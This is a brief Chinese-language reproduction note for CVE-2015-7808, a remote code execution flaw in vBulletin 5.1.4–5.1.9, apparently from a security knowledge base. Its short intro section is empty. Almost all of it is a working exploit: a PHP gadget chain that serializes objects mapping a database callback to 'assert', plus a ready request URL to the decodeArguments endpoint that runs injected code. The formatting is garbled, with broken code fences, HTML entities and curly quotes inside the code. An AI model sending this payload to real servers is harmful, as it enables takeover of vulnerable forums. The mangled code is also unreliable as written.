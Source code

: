 ```yaml
---
title: "（CVE-2015-7808）VBulletin 远程命令执行漏洞"
id: zhfly3217
---
```


# （CVE-2015-7808）VBulletin 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

VBulletin VBulletin 5.1.4 - 5.1.9

## 三、复现过程

```
$ php << 'eof'
 <?php
 class vB_Database_MySQL{
        public $functions = array();

```
 public function __construct() 
    {
            $this-&gt;functions['free_result'] = 'assert';
    } 
```

}

class vB_dB_Result {

protected $db;

protected $recordset;

```
 public function __construct()
    {
            $this-&gt;db = new vB_Database_MySQL();
            $this-&gt;recordset = "phpinfo()";
    } 
```

} `print urlencode(serialize(new vB_dB_Result())) . “n”;

eof` 
```

```
http://0-sec.org/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D 
```

![image](../img/da80244e114d31026479a1edf0fcc660.png)